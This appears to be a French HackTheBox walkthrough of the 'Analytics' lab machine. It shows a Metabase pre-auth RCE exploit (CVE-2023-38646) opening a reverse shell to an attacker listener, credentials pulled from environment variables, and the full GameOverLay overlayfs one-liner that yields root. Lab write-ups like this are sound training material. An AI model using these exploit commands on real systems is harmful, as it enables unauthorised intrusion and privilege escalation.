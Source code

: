 ```yaml
---
title: HTB | Analytics
description: Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a Metabase instance, which is vulnerable to Pre-Authentication Remote Code Execution (CVE-2023-38646), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to GameOverlay, which is leveraged to obtain root privileges.
slug: analytics-htb
date: 2025-08-31 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Analytics cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Analytics</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.233</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -An -p- 10.10.11.233

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

### /etc/hosts
On ajoute les noms de domaines necessaire. Un peu plus tard on découvrira qu'il y a également le nom de domaine: **data.analytical.htb**
```bash
## ...
10.10.11.233 analytical.htb
10.10.11.233 data.analytical.htb
```

### Metabase CVE
La machine semble utiliser metabase. En recherchant sur internet: metabase CVE.

On trouve tout de suite une vulnérabilité de 2023 exploitable assez facilemement pour la version de metabase installée.  
J'ai cloné un repo github avec la Proof of concert (PoC) ainsi qu'un autre script pour exploiter la vulnérabilité et ouvrir un shell.
```bash
┌──(kali㉿kali)-[~/…/HackTheBox/Machines/Analytics/CVE-2023-38646]
└─$ python3 CVE-2023-38646-POC.py --ip data.analytical.htb 
Failed to connect using HTTPS for data.analytical.htb. Trying next protocol...
None. Vulnerable Metabase Instance:-
             IP: data.analytical.htb
             Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```
D'après la CVE, si un setup Token est présent sur la page **/api/session/properties**, alors la machine est vulnérable.

### Metabase Exploit - Reverse Shell
Grâce aux deuxième script, on a réussi à ouvrir shell :
```bash
┌──(kali㉿kali)-[~/…/HackTheBox/Machines/Analytics/CVE-2023-38646]
└─$ python3 CVE-2023-38646-Reverse-Shell.py --rhost data.analytical.htb --lhost 10.10.14.125 --lport 44444
[DEBUG] Original rhost: data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.14.125, lport: 44444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
...
```
Sur la kali, on a un deuxième terminal avec un nc ouvert :
```bash
┌──(kali㉿kali)-[~/github/dirsearch]
└─$ nc -lvp 44444
listening on [any] 44444 ...
connect to [10.10.14.125] from analytical.htb [10.10.11.233] 53506
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d7bb30f10313:/$ whoami
whoami
metabase
```

### Enumeration (linPEAS)
Pour faire un recherche plus poussé sur la machine avec le compte accessible, on va utilisé l'outil **linPEAS**:
```bash
# KALI: On télécharge linPEAS.sh depuis la page "releases" du dépôt github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh

# KALI: On ouvre le port 80 à l'aide de python sur la machine hôte
sudo python3 -m http.server 80

# CIBLE: On récupère linPEAS.sh depuis la machine cible en se connectant sur le port 80 avec wget
wget 10.10.14.125:80/linPEAS.sh
```
Après l'execution de **linPEAS**, on a pu trouver un utilisateur et un mot de passe:
```bash
# $ env
...
META_USER=metalytics
META_PASS=An4lytics_ds20223#
...
```

### SSH as metalytics
On peut désormais se connecter en ssh avec le compte utilisateur trouvé:
```bash
┌──(kali㉿kali)-[~/Hacking/HackTheBox/Machines/Analytics]
└─$ ssh metalytics@10.10.11.233     
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
...
Last login: Sat Dec 30 17:28:13 2023 from 10.10.14.99
metalytics@analytics:~$ cat user.txt
8102.....9b97
```

## Privilege Escalation

### GameOverlay Exploit : CVE-2023–32629
On a executé a nouveau un linPEAS sur la machine sans grand succès. Cependant, on a trouvé la version qui tourne sur la machine: **Ubuntu 22.04.3**.

Après quelques recherches sur internet on a trouvé une faille exploitable dans cette version d'ubuntu expliqué ici : https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a

Il s'agit de la **CVE-2023–32629**. Il y a 3 commandes a écrire sur la machine pour vérifier si elle est vulnérable:
```bash
metalytics@analytics:~$ lsmod | grep overlay
overlay               188416  1
metalytics@analytics:~$ modinfo overlay
filename:       /lib/modules/6.2.0-25-generic/kernel/fs/overlayfs/overlay.ko
alias:          fs-overlay
license:        GPL
description:    Overlay filesystem
author:         Miklos Szeredi <miklos@szeredi.hu>
srcversion:     851BCABACE90D7C44199412
depends:        
retpoline:      Y
intree:         Y
name:           overlay
vermagic:       6.2.0-25-generic SMP preempt mod_unload modversions 
sig_id:         PKCS#7
signer:         Build time autogenerated kernel key
sig_key:        03:91:76:66:F0:D5:23:99:A0:4F:17:5E:BD:A8:42:D6:08:A9:5F:71
sig_hashalgo:   sha512
signature:      1E:49:B1:C3:CA:D2:84:15:17:4E:A5:AE:D6:E5:12:FD:D8:88:E3:C2:
        7B:55:50:11:FB:96:54:0C:E5:E7:39:D8:0A:3A:5A:1B:E2:9B:4D:63:
        70:8D:66:E1:72:15:90:BC:33:F2:7D:FA:B6:77:22:F1:7E:54:67:C8:
        9F:13:B4:87:0D:3B:DE:97:BC:06:1A:83:2C:BF:41:23:B5:73:D1:09:
        E6:A8:FE:BD:A3:8C:7D:4C:C9:B6:30:91:24:64:BB:0E:93:7D:99:44:
        2C:22:50:C8:75:9F:CC:67:54:65:AC:1C:CF:D5:87:A9:EC:71:9E:BF:
        C5:9E:C0:22:0E:2B:4F:9E:C9:69:B9:37:BA:B2:4F:7A:F2:A2:76:9C:
        D8:D6:7F:D0:8D:E8:64:D8:40:29:C1:E3:2C:9B:60:B9:35:A6:DA:E2:
        4D:75:90:42:84:98:AE:2B:D4:3A:13:50:94:AD:72:72:B8:35:50:F4:
        64:3C:23:BA:70:EC:D3:EE:05:03:0B:1E:61:01:42:65:2C:5D:44:75:
        CF:E1:62:47:41:02:7A:27:28:EB:F7:D9:02:AB:15:EB:1C:42:54:62:
        F0:2E:B0:FF:7D:AC:A0:FF:30:8F:24:E2:AD:43:7C:81:B8:F5:FB:25:
        D2:5A:71:53:45:99:BF:26:0E:40:D6:DD:3E:37:09:D8:7C:2E:9F:29:
        33:86:CA:53:45:F2:3A:B8:E5:0B:D4:32:38:49:FB:C0:6B:06:19:83:
        6F:FA:05:9D:6C:97:CB:0F:C4:10:EB:A3:76:53:B6:97:CC:EC:86:96:
        01:8F:AB:EB:31:F2:CA:0B:0E:D0:E3:03:6B:3B:30:0B:83:07:74:04:
        96:B7:E6:A2:B7:1D:7A:40:30:FC:F3:B0:E8:A4:F6:2F:5C:7F:F3:28:
        9F:A6:9E:F1:40:ED:F1:21:0E:2E:0A:F0:AC:1D:96:28:8D:C0:A2:56:
        F6:F1:60:F9:2A:36:8C:0C:18:BE:C3:B5:C4:60:3A:53:66:F0:3B:BC:
        92:D1:09:39:20:AB:FE:4B:68:24:A8:0A:0C:77:86:69:10:19:F9:70:
        4F:A3:8A:49:BA:B8:71:27:AA:E9:02:28:09:54:82:34:69:0D:C8:EA:
        0E:44:4A:54:32:D2:FC:E5:08:A1:31:1D:FE:BC:AD:06:75:0F:EF:DC:
        47:6B:F6:BF:E0:E6:50:4E:51:F8:E6:B0:29:5B:7B:D7:D4:C6:1B:E6:
        C5:EA:30:01:C6:F9:C4:B1:28:89:C5:63:7C:5F:9D:CB:43:BB:87:7C:
        A7:DF:C7:4C:C3:8D:17:BD:61:EE:CA:D8:3B:32:81:2B:FA:D0:F6:70:
        47:6C:ED:FA:FF:97:EF:4D:B3:C8:D3:E4
parm:           check_copy_up:Obsolete; does nothing
parm:           redirect_max:Maximum length of absolute redirect xattr value (ushort)
parm:           redirect_dir:Default to on or off for the redirect_dir feature (bool)
parm:           redirect_always_follow:Follow redirects even if redirect_dir feature is turned off (bool)
parm:           index:Default to on or off for the inodes index feature (bool)
parm:           nfs_export:Default to on or off for the NFS export feature (bool)
parm:           xino_auto:Auto enable xino feature (bool)
parm:           metacopy:Default to on or off for the metadata only copy up feature (bool)
metalytics@analytics:~$ mount | grep overlay
overlay on /var/lib/docker/overlay2/a7f6f5739f75f1e4bb96947354c287e8832cbd56e9413c7eb57975b922c7ae7c/merged type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/BC2SP2TYPJ5O4YFC453ADZ5EKX:/var/lib/docker/overlay2/l/XW5JTCT2MPEXHQG7MOTAI2T4KP:/var/lib/docker/overlay2/l/NFDWLGW3V3JHKDMCSIVCIGFRMU:/var/lib/docker/overlay2/l/MW4MXSGOUKAHBMLEMZ4WR4K7P2:/var/lib/docker/overlay2/l/AT6LTLZWU4G7MV5NOTUEB7AR4N:/var/lib/docker/overlay2/l/E6VXP5EJLZW24GE2AHMELF7FTD:/var/lib/docker/overlay2/l/3BARVZES6SW2GPRYNNYXZNM63J:/var/lib/docker/overlay2/l/JMBR2L6LC7K3O6CZHA24AF2CYR:/var/lib/docker/overlay2/l/PMQWGTOJEKRSOK2OV65KQJBDQY:/var/lib/docker/overlay2/l/L7Y5QRKKSPELNF2AUJ55RR2MV5:/var/lib/docker/overlay2/l/RO73TCQC6F7YHICLAOSVCCNSQ6,upperdir=/var/lib/docker/overlay2/a7f6f5739f75f1e4bb96947354c287e8832cbd56e9413c7eb57975b922c7ae7c/diff,workdir=/var/lib/docker/overlay2/a7f6f5739f75f1e4bb96947354c287e8832cbd56e9413c7eb57975b922c7ae7c/work)
```
On a pu en conclure que la machine était bien vulnérable et on a executé le payload expliqué dans l'article.
```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@analytics:~# cd /root
root@analytics:/root# cat root.txt 
f241.....692e
```